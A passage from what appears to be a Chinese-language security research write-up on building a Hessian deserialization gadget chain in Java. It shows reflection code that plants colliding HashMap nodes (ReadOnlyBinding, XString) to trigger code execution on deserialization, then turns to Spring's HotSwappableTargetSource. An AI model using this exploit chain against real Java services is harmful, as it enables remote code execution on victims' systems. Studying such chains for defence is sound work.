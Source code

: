         // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, readOnlyBinding, "EndlessShw", null);
        // 这里保证反序列化时 Hash 相同
        XString xString = new XString(unhash(readOnlyBinding.hashCode()));
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, xString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

    但是并没有弹出计算器。说明 Hash 碰撞还是有问题（TODO：想不出来为什么，也没找到相关文章，倒不如说 XBean 的文章都挺少，以后再研究这个所谓的 Hash 碰撞问题），那么这里就引入新的类：`org.springframework.aop.target.HotSwappableTargetSource`。
    主要参考这篇文章：

    > https://changeyourway.github.io/2024/06/07/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Rome%E9%93%BE%E4%B9%8BHotSwappableTargetSource%E9%93%BE/

    直接来看 `HotSwappableTargetSource#hashCode()`：
    ![image-20241021131041154](Hessian/image-20241021131041154.png)
    发现返回的 Hash 值是固定的。
    再来看 `HotSwappableTargetSource#equals()`：